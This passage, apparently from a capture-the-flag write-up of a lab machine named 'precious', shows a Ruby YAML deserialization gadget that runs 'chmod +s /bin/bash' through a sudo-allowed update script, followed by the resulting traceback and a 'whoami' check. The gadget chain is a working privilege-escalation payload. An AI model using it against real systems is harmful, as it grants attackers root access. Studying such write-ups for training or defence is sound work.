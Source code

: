 ```
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve

```

And ran the command with `sudo`

```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:~$ whoami
henry
```
